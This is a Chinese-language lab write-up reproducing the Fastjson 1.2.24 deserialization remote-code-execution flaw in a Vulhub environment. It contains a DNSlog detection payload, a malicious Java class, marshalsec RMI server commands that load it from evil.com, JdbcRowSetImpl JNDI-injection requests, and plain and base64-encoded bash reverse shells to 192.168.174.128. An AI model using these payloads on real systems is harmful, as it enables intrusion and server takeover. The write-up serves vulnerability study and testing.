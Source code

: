 # Fastjson 1.2.24 反序列化导致任意命令执行漏洞

## 漏洞描述

Fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

参考资料：

- https://www.freebuf.com/vuls/208339.html
- [http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/04/29/title- fastjson 远程反序列化poc的构造和分析/)

## 环境搭建

Vulhub运行测试环境：

```
docker-compose up -d
```

环境运行后，访问`http://your-ip:8090`即可看到JSON格式的输出。

![image-20220223111249998](images/202202231112044.png)

我们向这个地址POST一个JSON对象，即可更新服务端的信息：

```
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```

## 如何判断一个站点是否存在Fastjson？

- 参考阅读：https://zeo.cool/2020/07/04/%E7%BA%A2%E9%98%9F%E6%AD%A6%E5%99%A8%E5%BA%93!fastjson%E5%B0%8F%E4%BA%8E1.2.68%E5%85%A8%E6%BC%8F%E6%B4%9ERCE%E5%88%A9%E7%94%A8exp/

**方式1 响应时间**

正常数据响应时间（29毫秒）：

![image-20220223141118979](images/202202231411062.png)

存在Fastjson时，16进制数据响应时间明显变长（396毫秒）：

![image-20220223140820884](images/202202231408972.png)

**方式2 DNSlog**

最新版本1.2.67依然可以通过dnslog判断后端是否使用fastjson

```
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
```

## 漏洞复现

因为目标环境是Java 8u102，没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以使用`com.sun.rowset.JdbcRowSetImpl`的利用链，借助JNDI注入来执行命令。

首先编译并上传命令执行代码，如`http://evil.com/TouchFile.class`：

执行`javac TouchFile.java`，生成`TouchFile.class`。

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

通过python搭建一个临时的web服务，该服务是为了接收LDAP服务重定向请求，需要在payload的目录下开启此web服务，这样才可以访问到payload文件。此处payload文件即`TouchFile.class`。

```
python -m http.server 8888
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`。

```
$ git clone https://github.com/mbechler/marshalsec.git
$ mvn clean package -DskipTests
$ cp ./target/marshalsec-0.0.3-SNAPSHOT-all.jar /home/kali/vulnerability/vulhub/fastjson/1.2.24-rce
```

```shell
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com:8888/#TouchFile" 9999
```

![image-20220223122416137](images/202202231224191.png)

向靶场服务器发送Payload，带上RMI的地址，注意Content-Type应该是`application/json`：

```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```

![image-20220223122432463](images/202202231224531.png)

可见，命令`touch /tmp/success`已成功执行：

![image-20220223122451321](images/202202231224373.png)

### 反弹shell

同样，执行`javac TouchFile.java`，生成`TouchFile.class`。

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.174.128/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

也可以使用bash base64的方式：

```java
String[] commands = {"bash", "-c","{echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuMTQ3LjEyNy85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"}
```

启动一个RMI服务器，监听8888端口，并制定加载远程类`TouchFile.class`：

```
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 8888
```

发送POST请求包：

```
POST / HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 165

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.174.128:8888/TouchFile",
        "autoCommit":true
    }
}
```

监听9999端口，接收反弹shell：

![image-20220223125747062](images/202202231257183.png)
